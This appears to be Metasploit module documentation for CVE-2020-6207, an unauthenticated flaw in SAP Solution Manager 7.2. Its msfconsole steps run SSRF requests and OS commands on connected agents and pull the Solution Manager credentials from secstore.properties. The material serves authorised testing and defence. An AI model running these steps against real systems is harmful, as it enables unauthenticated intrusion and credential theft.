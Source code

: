 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute
OS commands from the agent connected to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

If a connected SMDAgent is also vulnerable to CVE-2019-0307, unauthenticated remote attackers can obtain its
secstore.properties file, which contains the credentials for the SAP Solution Manager server to which this SMDAgent is connected.

CVE-2019-0307 vulnerability paper: [The Agent Who Spoke Too Much][1]

CVE-2020-6207 vulnerability paper: [An Unauthenticated Journey to Root][2]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][3].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SRVHOST [Local IP]`
1. Do: `set action SECSTORE`
1. Do: `run`
1. Verify that the credentials for Solution Manager have been obtained.

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/